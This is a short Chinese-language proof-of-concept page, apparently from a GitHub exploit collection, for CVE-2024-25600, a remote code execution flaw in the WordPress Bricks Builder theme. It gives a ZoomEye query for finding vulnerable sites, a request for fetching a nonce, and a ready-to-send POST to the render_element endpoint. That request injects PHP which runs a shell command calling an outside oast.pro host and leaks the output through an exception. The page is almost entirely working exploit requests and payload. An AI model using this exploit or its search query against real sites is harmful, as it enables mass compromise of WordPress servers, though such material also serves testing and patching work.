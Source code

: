 ## WordPress插件Bricks Builder存在RCE漏洞(CVE-2024-25600)

## zoomeye
```
web.body="/wp-content/themes/bricks/"
```

## poc

### 获取nonce值
```
GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:96.0) Gecko/20100101 Firefox/96.0
Connection: close
Accept-Encoding: gzip, deflate
```
![f8692e900e34adeb6f8b23677258b8e1](https://github.com/wy876/POC/assets/139549762/656552ce-28a6-407a-b746-56bd36ea3eb0)

### rce
```
POST /wp-json/bricks/v1/render_element HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Connection: close
Content-Length: 401
Content-Type: application/json
Accept-Encoding: gzip, deflate

{
  "postId": "1",
  "nonce": "c5b5949**",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "ob_start();echo `curl cnc4ej5blq62an78ck6giyhcffmdr5t56.oast.pro`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
        "objectType": "post"
      }
    }
  }
}
```
![78880674cd49cefc6d5787c30efaf8cd](https://github.com/wy876/POC/assets/139549762/986bebf0-4369-462b-923c-775434318338)
